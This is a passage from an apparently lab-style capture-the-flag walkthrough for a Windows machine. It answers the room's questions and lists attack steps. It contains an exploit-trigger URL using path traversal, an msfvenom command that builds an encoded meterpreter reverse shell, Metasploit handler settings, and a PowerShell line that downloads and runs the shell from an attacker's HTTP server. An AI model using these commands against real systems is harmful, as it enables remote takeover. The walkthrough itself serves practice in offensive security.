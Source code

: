<img width="1076" alt="27" src="https://user-images.githubusercontent.com/28839345/165507874-d66eb5b2-3622-4e99-811b-afd8268d02af.png">

Start a netcat lister


Start metapsloit and run the following commands to enable the multi/handler which will be used to create a more stabilzed shell.

**What is the OS version of this windows machine?** 

Windows 2012 R2 (6.3 Build 9600)

Further enumerate the machine.

**What is the name of the abnormal service running?**

WindowsScheduler

**What is the name of the binary you're supposed to exploit?**

Message.exe

**Using this abnormal service, escalate your privileges!**

WindowsScheduler


#### [Task 4] Windows Privilege Escalation

Exploit url

- Go to the following url to upload the exploit
`http://10.10.98.79/admin/app/editor/editpost.cshtml`

- Run the exploit by going to the following path
 `http://10.10.98.79/?theme=../../App_Data/files`

- Create a reverse_shell using metasploit
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.107.62 LPORT=4444 -f exe -o reverse_shell.exe`

- Metasploit commands to run a mult/handler
`use exploit/multi/handler`  
`set PAYLOAD windows/meterpreter/reverse_tcp`  
`set LHOST 10.10.83.129   
`set LPORT 4445`  
`run`


- Powershell command to download a reverse_shell from an http server
`powershell -c wget  "http://10.10.107.62:8000/reverse_shell.exe" -outfile "reverse_shell.exe"`

- Run it
`reverse_shell.exe`


#### [Task 4] Windows Priviledge Escalation

--------------Upload winPEAS0x64.exe

First of all you need to download winPEASx64.exe to your local machine.
